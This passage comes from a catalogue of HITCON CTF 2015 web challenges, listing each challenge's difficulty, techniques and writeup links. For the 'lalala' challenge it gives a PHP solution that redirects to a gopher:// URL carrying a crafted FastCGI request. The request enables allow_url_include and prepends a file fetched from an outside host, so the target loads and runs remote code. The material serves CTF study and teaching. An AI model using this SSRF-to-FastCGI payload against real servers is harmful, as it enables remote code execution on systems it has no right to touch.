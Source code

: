 #### Source Code

* [here](hitcon-ctf-2015/giraffe's-coffee)  

#### Solution  

    TBD

#### Write Ups

* [HITCON CTF 2015 Web 100 Web 300 Writeup](http://5alt.me/posts/2015/10/HITCON%20CTF%202015%20Web%20100%20Web%20300%20Writeup.html)
* [Giraffe's Coffee - Web 300 Problem - Writeup by Robert Xiao (@nneonneo)](https://github.com/pwning/public-writeup/blob/master/hitcon2015/web300-giraffes-coffee/readme.md)
* [HITCON 2015 WEB 300](https://docs.google.com/document/d/1NlCF4jykgwuUMkr0I8HjbLRUKNAGf6jzRiI2D9TyumA/edit)


## **lalala**

Difficulty: **★★★☆**  
Solved: **2 / 969**  
Tag: **BlackBox**, **PHP**, **SSRF**  

#### Idea

* Bypass SSRF restrictiton with 302 redirect  
* Exploit FASTCGI protocol by using GOPHER  

#### Source Code  

* [here](hitcon-ctf-2015/lalala)  

#### Solution    

```php
<?php
header( "Location: gopher://127.0.0.1:9000/x%01%01Zh%00%08%00%00%00%01%00%00%00%00%00%00%01%04Zh%00%86%00%00%0E%03REQUEST_METHODGET%0F%0ASCRIPT_FILENAME/www/a.php%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%09%26PHP_VALUEauto_prepend_file%20%3D%20http%3A//orange.tw/x%01%04Zh%00%00%00%00%01%05Zh%00%00%00%00" );
```

#### Write Ups  

* [HITCON CTF 2015 Web 100 Web 300 Writeup](http://5alt.me/posts/2015/10/HITCON%20CTF%202015%20Web%20100%20Web%20300%20Writeup.html)  
* [Hitcon 2015 lalala web400 task](https://docs.google.com/document/d/1eALKwCyogM5Mw_D4qWe48X-PAGZw_2vT82aP0EPIr-8/mobilebasic?pli=1)  


## **Use-After-FLEE**  

Solved: **1 / 969**  
Difficulty: **★★★★☆**  
Tag: **WhiteBox**, **PHP**, **UAF**, **PWN**  
